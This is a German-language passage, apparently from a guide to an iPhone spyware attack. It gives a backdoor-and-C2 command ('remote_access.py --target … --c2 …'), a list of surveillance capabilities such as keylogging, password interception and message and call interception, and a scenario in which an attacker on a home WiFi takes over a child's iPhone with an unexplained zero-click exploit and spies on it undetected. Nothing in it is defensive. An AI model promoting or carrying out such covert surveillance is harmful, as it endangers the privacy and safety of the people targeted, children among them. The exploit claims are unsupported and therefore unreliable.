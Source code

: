 #### Schritt 4: Remote Access etablieren
```
🦠 Schritt 4: Remote Access etablieren
   📝 Backdoor installieren und C2-Verbindung etablieren
   💻 Befehl: remote_access.py --target 192.168.1.100 --c2 192.168.1.254
   ✅ Ergebnis: Vollständiger Remote Access etabliert
```

## 👁️ NACH DER INFEKTION: Was Sie können

### 📱 Screen Monitoring:
- Real-time Screen Recording
- Screenshot Capture
- Screen Activity Monitoring

### 📱 Input Monitoring:
- Complete Keylogging
- Touch Input Capture
- Password Interception

### 📱 Location Tracking:
- GPS Location Tracking
- Movement History
- Real-time Location Updates

### 📱 Communication Interception:
- iMessage Monitoring
- SMS Interception
- Call Recording
- FaceTime Monitoring

### 📱 Data Extraction:
- Contact List Extraction
- Photo Library Access
- Safari Browsing History
- App Usage Data

## 📋 PRAKTISCHES BEISPIEL

### 🏠 Szenario: Heim-WiFi-Netzwerk
```
🏠 Szenario: Heim-WiFi-Netzwerk
👨‍👩‍👧‍👦 Familie: Eltern + 2 Kinder
📱 Geräte: 4 iPhones, 2 iPads, 1 MacBook
🔑 WiFi Admin: Angreifer hat Admin-Zugang
```

### 🎯 Angriffs-Prozess:
1. Angreifer gewinnt Admin-Zugang zum Heim-WiFi
2. Scannt Netzwerk und findet alle Geräte
3. Wählt Kindes iPhone als Ziel
4. Verwendet Zero-Click-Exploit via WiFi
5. Gewinnt vollständige Kontrolle über Gerät
6. Überwacht alle Aktivitäten ohne Erkennung
